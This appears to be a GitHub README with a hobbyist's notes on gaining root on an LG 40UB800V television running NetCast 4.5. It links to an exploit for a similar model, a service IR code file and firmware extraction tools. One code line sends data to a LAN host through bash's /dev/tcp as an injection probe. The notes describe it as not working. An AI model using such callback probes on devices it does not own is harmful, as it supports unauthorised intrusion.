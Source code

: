 # lg-40ub800v
Exploring NetCast4.5 on lg 40ub800v

Exploit of a similar model:

https://www.encrypted.at/remote-root-shell-on-lg-tv-2013-netcast-models/

Service Remote IR File:

https://github.com/logickworkshop/Flipper-IRDB/blob/main/TVs/LG/LG_MKJ39170828_Service.ir

Charriot Endpoint is startable

Exploit from article above does not work

Thought about something like this:



Serial adapter(?):

you can connect a PL2303-based USB/serial adapter
although it may require specific VID/PID (aten UC232)

Testing TCP Connections?

Maybe this works?

```
"Hi from LGTV at $(uname -n)" 2>/dev/null > /dev/tcp/192.168.178.123/8989"
```

TIL it won't, thats a bash feature

LG Opensource about a similar model with NetCast4.5

https://opensource.lge.com/product/list?page=&keyword=netcast4.5&schType=

(Click on the Notice Icon)

Downloaded firmware from LG Page https://gscs-b2c.lge.com/downloadFile?fileId=TChspcUESxIee32k8JuGQ

binwalk can't find anything, seems to be encrypted

but hey, there is https://github.com/openlgtv/epk2extract - maybe this is worth a try :)

Another idea is to switch names to the pelinux....tar, there are different versions of the chariot endpoint software.

![image](https://github.com/user-attachments/assets/4e9e7d7b-91e5-4670-807c-7ef0cff9f136)

